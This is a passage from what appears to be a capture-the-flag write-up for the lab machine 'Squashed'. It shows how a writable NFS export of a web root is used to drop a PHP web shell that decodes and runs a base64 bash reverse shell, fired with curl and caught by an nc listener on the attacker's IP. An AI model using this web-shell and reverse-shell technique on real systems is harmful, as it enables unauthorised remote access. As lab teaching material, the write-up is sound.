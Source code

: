 Let's browse to `http://10.10.11.191/`.

![Apache homepage](apache-homepage.png)

It's just a template website. None of the functionalities nor links are working.

The footer of the web page indicates that it's indeed a template made by
[HTML Design](https://html.design/).

If we compare this web page with the `index.html` file we found in the
`/var/www/html` NFS export, we see that they're the same. This means that we
have access to the source code of the web server!

## Foothold (RCE)

Since we have read and write access to the source code of the web server through
the `/var/www/html` NFS export, we can simply add an executable file to get RCE.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

I'll save it in `/workspace/nfs/html` as `revshell.php`, which will effectively
place it on Squashed in `/var/ww/html`.

### Exploitation

Let's send a request to Squashed to execute our payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.11.191/revshell.php"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.191] 52474
<SNIP>
alex@squashed:/var/www/html$
```

